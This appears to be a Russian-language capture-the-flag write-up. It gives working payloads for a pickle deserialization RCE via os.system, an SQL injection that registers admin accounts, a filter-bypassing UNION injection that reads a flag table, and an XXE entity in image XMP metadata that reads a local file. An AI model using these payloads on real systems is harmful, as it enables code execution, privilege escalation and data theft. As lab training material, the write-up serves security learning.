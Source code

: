 # Command injection

Task :
![](https://i.imgur.com/uBHjjRV.png)
```
class A(object): 
	def __reduce__(self): 
		return (print, ('Hello, World',)) 
		
base64.encodebytes(pickle.dumps(A()))
```

1) Попробуем вызвать ls, чтобы чекнуть файлы в системе:
```
import base64
import pickle
import os
class A(object):
    def __reduce__(self):
        return (os.system, ('ls',))

# Create an instance of A and serialize it using pickle, then encode it in base64
encoded_data = base64.encodebytes(pickle.dumps(A()))

print(encoded_data)
```
Результат:
![](https://i.imgur.com/iwSHP3H.png)
2)


## Medium SQL injection
в момент регистрации отправим инъекцию, которая добавит пользователя с правами админа
```
ankdvnakdvn', 'qwerty1234', 'qwerty1234', 'admin'), ('Pifocoder', 'Pifocoder', 'qwerty1234', 'admin'); --
```


## SQL injection
обход фильтров: URL encoding + обход фильтров + экранирование одной кавычки
```
/**/UNION/**/SELECT/**/0,/**/flag,/**/flag/**/FROM/**/flag/**/LIMIT/**/1%3B/**/#

/**/UNION/**/SELECT/**/*/**/FROM/**/(SELECT/**/1)t1/**/JOIN/**/(SELECT/**/flag/**/FROM/**/flag)t2/**/JOIN/**/(SELECT/**/flag/**/FROM/**/flag)t3/**/;/**/#

?login=user\&password=%2F%2A%2A%2FUNION%2F%2A%2A%2FSELECT%2F%2A%2A%2F%2A%2F%2A%2A%2FFROM%2F%2A%2A%2F%28SELECT%2F%2A%2A%2F1%29t1%2F%2A%2A%2FJOIN%2F%2A%2A%2F%28SELECT%2F%2A%2A%2Fflag%2F%2A%2A%2FFROM%2F%2A%2A%2Fflag%29t2%2F%2A%2A%2FJOIN%2F%2A%2A%2F%28SELECT%2F%2A%2A%2Fflag%2F%2A%2A%2FFROM%2F%2A%2A%2Fflag%29t3%2F%2A%2A%2F%3B%2F%2A%2A%2F%23
```
# XXE
статья - https://habr.com/ru/companies/vds/articles/454614/
задача, сервис парсит xmp metadata из файла, который мы отправим (в частности jpg)
Напишу скрипт на python, который добавит к файлу xmp metadata c Doctype `<!DOCTYPE xmp [ <!ENTITY xxe SYSTEM "file:///flag"> ]>` и показом на сайте: `<xmp:CreatorTool>&xxe;</xmp:CreatorTool>`
``
```python
from PIL import Image
import piexif

def add_xmp_metadata(image_path, xmp_data, output_path):
    try:
        image = Image.open(image_path)

        # Конвертируем изображение в режим RGB, если оно имеет альфа-канал
        if image.mode in ("RGBA", "P"):
            image = image.convert("RGB")

        # Попытка загрузить существующие EXIF данные
        exif_dict = piexif.load(image.info.get("exif", b""))
    except (FileNotFoundError, piexif.InvalidImageDataError):
        # Если EXIF данные отсутствуют, создаем новый словарь
        exif_dict = {"0th": {}, "Exif": {}, "GPS": {}, "1st": {}, "thumbnail": None}

    # Добавление или обновление тега UserComment в EXIF
    user_comment = xmp_data.encode("utf-8")
    exif_dict["Exif"][piexif.ExifIFD.UserComment] = user_comment

    # Преобразование словаря EXIF обратно в байты
    exif_bytes = piexif.dump(exif_dict)

    # Сохранение нового изображения с обновленными метаданными
    image.save(output_path, exif=exif_bytes)

# Пути к исходному и выходному файлам изображений
image_path = 'input_image.jpg'
output_path = 'output_image_with_xmp.jpg'

# Пример XMP данных для добавления (в строковом представлении)
xmp_data = """
<!DOCTYPE xmp [ <!ENTITY xxe SYSTEM "file:///flag"> ]>
<x:xmpmeta xmlns:x='adobe:ns:meta/'>
  <rdf:RDF xmlns:rdf='http://www.w3.org/1999/02/22-rdf-syntax-ns#'>
    <rdf:Description rdf:about='' xmlns:xmp='http://ns.adobe.com/xap/1.0/'>
      <xmp:CreatorTool>&xxe;</xmp:CreatorTool>
    </rdf:Description>
  </rdf:RDF>
</x:xmpmeta>"""

# Добавление XMP-метаданных к изображению
add_xmp_metadata(image_path, xmp_data, output_path)
```
